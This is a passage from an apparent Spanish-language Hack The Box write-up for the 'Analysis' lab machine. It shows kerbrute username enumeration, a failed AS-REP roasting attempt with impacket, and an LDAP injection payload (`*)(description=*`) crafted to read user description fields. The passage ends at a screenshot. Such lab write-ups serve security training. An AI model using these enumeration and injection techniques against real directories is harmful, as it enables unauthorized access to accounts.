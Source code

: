 Podemos confirmar que estos usuarios son válidos a nivel de sistema con `kerbrute`

```shell
$ /opt/kerbrute userenum --dc 10.129.230.179 -d analysis.htb  users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/12/24 - Ronnie Flathers @ropnop

2024/08/12 20:39:37 >  Using KDC(s):
2024/08/12 20:39:37 >  	10.129.230.179:88

2024/08/12 20:39:37 >  [+] VALID USERNAME:	 amanson@analysis.htb
2024/08/12 20:39:37 >  [+] VALID USERNAME:	 badam@analysis.htb
2024/08/12 20:39:37 >  [+] VALID USERNAME:	 lzen@analysis.htb
2024/08/12 20:39:37 >  [+] VALID USERNAME:	 jangel@analysis.htb
2024/08/12 20:39:37 >  [+] VALID USERNAME:	 technician@analysis.htb
2024/08/12 20:39:37 >  Done! Tested 6 usernames (5 valid) in 0.043 seconds
```

Podemos probar a solicitar un ticket TGT pero esto no sirve..

```shell
$ impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User amanson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User badam doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jangel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lzen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User technician doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Por lo cual, podemos intentar recuperar el campo `description` que existe por defecto para ver si contiene algo para cada usuario.

Primero debemos fabricar nuestro payload.

Después de un rato probando (no tengo mucha experiencia en inyecciones LDAP), encontramos lo siguiente.

Este payload me devuelve algo: 
`*)(description=*`

![Write-up Image](images/Screenshot_9.png)
